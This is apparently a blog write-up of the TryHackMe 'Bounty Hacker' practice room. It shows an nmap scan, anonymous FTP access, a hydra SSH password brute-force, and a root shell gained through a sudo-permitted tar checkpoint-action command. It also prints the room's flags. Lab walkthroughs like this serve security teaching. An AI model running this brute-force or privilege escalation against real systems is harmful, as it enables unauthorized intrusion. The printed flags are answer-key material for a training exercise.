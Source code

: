```yaml
---
published: true
image: /assets/img/logo/bounty.png
categories:
  - Machine-Writeup
  - Tryhackme
tags:
  - tryhackme
  - beginner
title: 'Boundy Hacker [TryHackMe]'
headline: 'Bounty Hacker is an easy machine from tryhackme,it absolutely beginner box.'
---
```



Today I wanna share for you a very easy fun box in [Tryhackme](https://tryhackme.com/) called [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) created by [Sevuhl](https://tryhackme.com/p/Sevuhl)

# [](#header-2)Nmap Scan

```console
# Nmap 7.80 scan initiated Fri Jul 31 19:53:29 2020 as: nmap -sC -sV -oN nmap 10.10.85.90
Nmap scan report for 10.10.85.90
Host is up (0.29s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.69.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 19:54:25 2020 -- 1 IP address (1 host up) scanned in 56.02 seconds

```
# [](#header-2)Web

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/2.png)

I scanned all directories, but nothing interesting there ,let's move on 

# [](#header-2)FTP

Next step is FTP can login with anonymous 

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ftp 10.10.85.90
Connected to 10.10.85.90.
220 (vsFTPd 3.0.3)
Name (10.10.85.90:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
`ls -al` 

```shell
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 

```
Let's download these two files with `get` command

```shell
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (402.1706 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (35.0984 kB/s)
ftp> 

```

`task.txt`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

`locks.txt`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat locks.txt 
rEddrAGON
ReDdr*****d!cat3
Dr@gO*****cat3
R3DDr*****YndIC@Te
Re****0N
R3d*****1c4te
dRa****DiCATE
ReDD*****Ic4te
R3D****44
RedD*****1cat3
R3dD*****d1c@T3
Synd*****@g0n
re****Ag0N
REddR*****NdIc47e
Dra6******IC@t3
4L1mi*****eB357
rEDd******1c473
DrAg****D1cATE
ReD*****nd1cate
Dr@g*****1C4Te
RedDr*****9ic47e
REd*****7e
dr******c@73
rEDdr******iCat3
r3d****0N
Re****1ca7e

```

Look like `passowrd` file. According to `task.txt` file `lin` can be username 

So let's bruteforce with hydra for ssh :)

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #hydra -l lin -P locks.txt ssh://10.10.85.90
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 20:17:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.85.90:22/
[22][ssh] host: 10.10.85.90   login: lin   password: RedD*******nd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 20:17:40
```

OK! Now we got username and password , let's login

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ssh lin@10.10.85.90
lin@10.10.85.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Fri Jul 31 09:59:59 2020 from 10.8.69.162
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR**************T3}

```

# [](#header-2)Privilege Escalation

```shell
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

`lin` user can run `tar` as root ,let's go [GTFObin](https://gtfobins.github.io/) and search `tar`

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/3.png)

Now we use this command for privilege escalation

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```shell
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# 
```

We owned this machine :)

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/4.png)

[Enjoy..]()

<script src="https://tryhackme.com/badge/97569"></script>
